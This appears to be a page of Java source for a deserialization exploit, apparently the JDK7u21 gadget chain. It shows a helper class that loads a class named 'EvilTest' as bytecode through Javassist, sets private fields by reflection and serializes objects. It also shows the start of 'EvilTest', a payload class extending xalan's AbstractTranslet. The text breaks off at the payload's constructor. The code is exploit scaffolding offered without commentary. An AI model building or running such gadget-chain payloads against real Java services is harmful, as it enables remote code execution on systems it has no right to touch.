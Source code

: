 ```java
package jdk721;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static void setFieldValue(Object object,String name,Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(object,value);
    }
    public static Object getFieldValue(Object object,String name) throws Exception{
        Field field=object.getClass().getDeclaredField(name);
        field.setAccessible(true);
        return field.get(object);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath("src\\main\\resources");
        CtClass ctClass = pool.get("EvilTest");
        byte[] code=ctClass.toBytecode();
        return  code;
    }
    public static void unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais=new ByteArrayInputStream(bytes);
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
    public static byte[] serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
}

```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTest extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public EvilTest() throws Exception{
```